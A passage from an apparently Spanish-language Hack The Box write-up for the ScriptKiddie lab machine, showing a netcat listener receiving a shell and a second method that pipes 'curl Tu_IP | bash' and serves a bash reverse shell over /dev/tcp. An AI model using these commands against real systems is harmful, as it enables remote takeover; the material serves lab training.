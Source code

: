 * Carga el archivo a la página:

<p align="center">
<img src="/assets/images/htb-writeup-scriptkiddie/Captura6.png">
</p>

* Resultado:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.226] 46504
bash: cannot set terminal process group (826): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ whoami
whoami
kid
```

<br>

**Opción 2**:
* Vamos a cambiar el script, aplicaremos **curl** para que pueda leer e interpretar un archivo que contiene una **Reverse Shell**:
```python
payload = 'curl Tu_IP | bash'
```

* Vamos a crear un archivo en **HTML** con una instrucción en **Bash** para conectarnos a la máquina, esto sería nuestra **Reverse Shell**:
```bash
nano index.html
#!/bin/bash
bash -i >& /dev/tcp/Tu_IP/443 0>&1
```
